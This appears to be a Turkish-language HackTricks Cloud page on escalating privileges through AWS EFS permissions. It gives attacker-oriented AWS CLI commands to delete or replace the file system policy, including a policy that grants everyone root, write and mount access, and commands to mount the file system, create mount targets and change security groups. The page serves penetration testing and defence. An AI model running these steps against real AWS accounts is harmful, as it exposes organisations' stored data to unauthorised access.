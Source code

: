 # AWS - EFS Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## EFS

Daha fazla **EFS hakkında bilgi** için:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Bir EFS'yi bağlamak için, EFS'nin açık olduğu bir alt ağda olmanız ve ona erişiminizin olması gerektiğini unutmayın (güvenlik grupları). Eğer bu gerçekleşiyorsa, varsayılan olarak her zaman onu bağlayabileceksiniz, ancak IAM politikalarıyla korunuyorsa, ona erişmek için burada belirtilen ek izinlere sahip olmanız gerekir.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Bu izinlerden herhangi biriyle bir saldırgan **dosya sistemi politikasını** **değiştirerek** size **erişim verebilir** veya sadece **silerek** **varsayılan erişimi** sağlayabilir.

Politikayı silmek için:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Değiştirmek için:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Bu izinle bir saldırgan **EFS'yi monte edebilir**. Eğer yazma izni, EFS'yi monte edebilen herkes için varsayılan olarak verilmemişse, yalnızca **okuma erişimine** sahip olacaktır.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Ekstra izinler `elasticfilesystem:ClientRootAccess` ve `elasticfilesystem:ClientWrite`, dosya sistemi monte edildikten sonra **yazmak** ve bu dosya sistemine **root** olarak **erişmek** için kullanılabilir.

**Olası Etki:** Dosya sisteminde hassas bilgileri bulma yoluyla dolaylı yetki yükseltme.

### `elasticfilesystem:CreateMountTarget`

Eğer bir saldırgan **alt ağda** EFS'nin **hiçbir montaj hedefi** yoksa, bu yetki ile **kendi alt ağında bir tane oluşturabilir.**
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potansiyel Etki:** Dosya sisteminde hassas bilgilerin bulunmasıyla dolaylı yetki artırma.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Bir saldırganın EFS'nin kendi alt ağında bir montaj hedefi bulduğu ancak **hiçbir güvenlik grubunun trafiğe izin vermediği** bir senaryoda, **seçilen güvenlik gruplarını değiştirerek bunu değiştirebilir:**
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potansiyel Etki:** Dosya sisteminde hassas bilgilerin bulunmasıyla dolaylı privesc.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
